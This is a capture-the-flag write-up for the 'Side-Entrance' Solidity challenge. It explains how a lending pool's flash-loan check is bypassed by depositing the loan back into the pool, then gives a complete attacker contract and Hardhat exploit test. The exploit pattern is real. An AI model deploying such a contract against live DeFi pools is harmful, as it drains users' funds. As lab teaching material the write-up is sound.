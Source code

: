 # Side-Entrance

## Introduction
The goal of this box is to siphon 1000ETHs in an existing lending pool.

## Code Breakdown
Similiar to Truster box, it only has 1 smart contract ***SideEntranceLenderPool.sol***.
Let's start by looking at the variables.
```
using Address for address payable;
mapping (address => uint256) private balances;
```
The address variable uses openzeppelin library to offer more functions.
Reference: <https://docs.openzeppelin.com/contracts/3.x/api/utils#Address>

Whereas, a simple hashmap is made for ***balances*** where each address contains *x* amount of tokens in integer format.
Reference: <https://medium.com/upstate-interactive/mappings-in-solidity-explained-in-under-two-minutes-ecba88aff96e>

The first function is an interface. It is empty and it contains an ***execute()*** function.
```
interface IFlashLoanEtherReceiver {
    function execute() external payable;
}
```

The next function is ***desposit***.
It is simple where it stores the value directly into the hashmap.
```
function deposit() external payable {
    balances[msg.sender] += msg.value;
}
```

Next, a ***withdraw()*** function is created for users to withdraw their tokens out to their wallet. Even though it does not have any reentrancy guard, it follows the best practice outlined by Solidity documentation - [Checks-Effect-Interactions Pattern](https://docs.soliditylang.org/en/v0.8.16/security-considerations.html#use-the-checks-effects-interactions-pattern).

```
function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```

Lastly, ***flashLoan(uin256 amount)*** function is created. 
As usual, it checks if the pool have sufficient ETH for borrowing.
```
uint256 balanceBefore = address(this).balance;
require(balanceBefore >= amount, "Not enough ETH in balance");
```

Next, it executes an interface function .
```
IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
```

Lastly, it checks if the loan is returned to the lending pool.
```
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
```

## Hints
First and foremost, there are two pool of funds - lending pool and individual balance pool. Both are identified based on their address. Here's the problem, the lending pool and individual balance pool have overlaps. 

Consider this scenario:
A lending pool has an address.
Since it's an address, it have an individual lending balance pool too.
Let's assign 10 ETH to the lending pool. Notice that the individual Balance pool is 0.

| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacler Balance |
|------|------|------|------|
| 10 ETH | 0 ETH | 0 ETH | 0 ETH |

This essentially means ```address(this).balance != balances(address(this))```.
Here's the loophole, if we ***deposit*** 10 ETH to the *Lending Individual Balance*, the *Lending Pool* will still reflect 10 ETH as the ETH was not transferred away from the *Lending Pool*. However, the function will add 10 ETH into the hashmap which will increase *Lending Individual Balance* by 10 ETH. Thus, both *Lending Pool* and *Lending Individual Balance* will have 10 ETHs respectively. 

```
function deposit() external payable {
    balances[msg.sender] += msg.value;
}
```

Understanding this concept, we can also bypass the final check in the ***flashLoan*** function as ***address(this).balance*** refers to *Lending Pool*.
```
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
```

The result after flashLoan should look like this.
| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacker Balance |
|------|------|------|------|
| 10 ETH | 10 ETH | 0 ETH | 0 ETH |

Next, we'll withdraw ETHs with the function ***withdraw()***. The function will remove all ETHs from *Lending Individual Balance* and transfer ETHs from *Lending Pool* to ***msg.sender***. ***msg.sender*** should be coming from *Attacker Balance Pool*.
Note: You may be thinking, ***Address.sol*** requires 2 parameters for the function ***sendValue*** yet I only see 1. This should clarify any doubts. ```payable(msg.sender).sendValue(amountToWithdraw);``` is the same as ```Address.sendValue(payable(msg.sender), amountToWithdraw);```
```
function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```
Using that function should result in this.
| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacker Balance |
|------|------|------|------|
| 0 ETH | 0 ETH | 10 ETH | 0 ETH |

Now, we'll shift the 10 ETHs from *Attacker Balance Pool* to *Attacker Balance* with a simple transaction which will yield the final result
| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacker Balance |
|------|------|------|------|
| 0 ETH | 0 ETH | 0 ETH | 10 ETH |


## Solutions
Following the hints above, your smart contract should look similar to this.
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";
import "../side-entrance/SideEntranceLenderPool.sol";

/**
 * @title SideEntranceAttacker
 * @author BingleBangle-BH's attacker contract
 */

 contract SideEntranceAttacker{
    using Address for address payable;
    SideEntranceLenderPool public immutable pool;

    constructor (SideEntranceLenderPool _pool){
        pool = SideEntranceLenderPool(_pool);
    }

    function execute() public payable{
        pool.deposit{value: msg.value}();
    }

    function stealFunds() external{
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        address _owner = msg.sender;
        payable(_owner).sendValue(address(this).balance);
    }

    receive () external payable {}
 }
```

Here's the javascript
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    const SideEntranceAttack = await ethers.getContractFactory('SideEntranceAttacker', attacker);
    this.attackpool = await SideEntranceAttack.deploy(this.pool.address);
    await this.attackpool.stealFunds();
});
```
## Recommendations
Do not use allow two pools of funds to exist in a single smart contract. Use openzeppelin libraries such as[ERC20](https://docs.openzeppelin.com/contracts/4.x/erc20) to manage the funds.